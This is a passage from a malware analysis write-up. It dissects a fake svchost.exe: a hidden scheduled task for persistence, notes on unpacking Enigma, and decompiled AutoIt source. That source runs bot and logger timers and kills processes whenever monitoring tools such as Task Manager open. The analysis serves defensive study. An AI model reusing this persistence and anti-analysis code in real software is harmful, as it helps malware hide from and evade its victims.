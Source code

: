 ```
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>false</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>true</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>7</Priority>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>%userprofile%\AppData\Roaming\Microsoft\Windows\svchost.exe</Command>
      <Arguments>-WindowsCheck</Arguments>
    </Exec>
  </Actions>
</Task>
```

This executes the newly-created `svchost.exe` with the `-WindowsCheck` command line every X amount of time (probably days, not really worth exploring in this case).

## 64.exe (svchost.exe)

[VirusTotal](https://virustotal.com/en/file/f53fa47763b9afdf9ef03c935c413e9c2969091142cd42584f33b0bef27362ca/analysis)

This file is packed with Enigma x64. [TitanHide](https://github.com/mrexodia/TitanHide) works fine for debugging Enigma (ScyllaHide has issues). The original entry point (OEP) is at `64.exe:$3059C` . It has stolen bytes, but they are easy to retrieve:

`48 83 EC 28 E8 BF B3 00 00 48 83 C4 28 E9 36 FE FF FF`

To get them I created my own `Hello World`-style AutoIt executable and pasted the entry point.

After the 'unpacking' enigma, I extracted the `SCRIPT` resource and put it in a `Hello World` AutoIt executable (32 bit), I then used `Exe2Aut.exe` to get the AutoIt script source code (irrelevant parts omitted):

```au3
If $cmdline[0] > 0 Then
    Select 
        Case $cmdline[1] = "-WindowsCheck"
            AdlibRegister("bot", 10 * 60 * 1000)
            $botcheck = "https://www.youtube.com/watch?v=RmCcqoC-Oms"
            AdlibRegister("logger", 5 * 60 * 1000)
            If WinExists("SystemHer") Then
                Exit
            EndIf
            GUICreate("SystemHer")
            While Sleep(250)
                Global $aprocess[] = ["taskmgr.exe", "ProcessHacker.exe", "procexp.exe", "procexp64.exe", "perfmon.exe"]
                For $k = 0 To UBound($aprocess) - 1
                    If ProcessExists($aprocess[$k]) Then
                        $kpids = ProcessList()
                        For $q = 1 To $kpids[0][0]
                            $kreg = StringRegExp($kpids[$q][0], "attrib.exe", 3)
                            If $kreg <> 1 Then
                                If ProcessExists($kpids[$q][1]) Then ProcessClose($kpids[$q][1])
```